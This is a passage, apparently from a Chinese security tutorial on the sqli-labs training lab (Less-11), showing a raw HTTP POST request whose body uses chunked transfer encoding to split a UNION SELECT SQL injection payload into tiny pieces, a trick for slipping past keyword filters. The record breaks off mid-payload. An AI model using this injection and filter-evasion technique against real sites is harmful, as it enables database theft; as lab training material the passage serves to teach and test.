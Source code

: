    

![](https://gitee.com/fuli009/images/raw/master/public/20230303190506.png)

#### 读取表名：

    
    
    POST /sqli-labs-master/Less-11/ HTTP/1.1  
    Host: 192.168.172.161  
    Content-Length: 619  
    Cache-Control: max-age=0  
    Upgrade-Insecure-Requests: 1  
    Origin: http://192.168.172.161  
    Content-Type: application/x-www-form-urlencoded  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9  
    Referer: http://192.168.172.161/sqli-labs-master/Less-11/  
    Accept-Encoding: gzip, deflate  
    Accept-Language: zh-CN,zh;q=0.9  
    Connection: close  
    Transfer-Encoding: chunked  
      
    1  
    u  
    2  
    na  
    1  
    m  
    1  
    e  
    1  
    =  
    1  
    &  
    2  
    pa  
    2  
    ss  
    2  
    wd  
    1  
    =  
    3  
    %27  
    1  
    u  
    2  
    ni  
    1  
    o  
    1  
    n  
    1  
    +  
    2  
    se  
    2  
    le  
    1  
    c  
    1  
    t  
    1  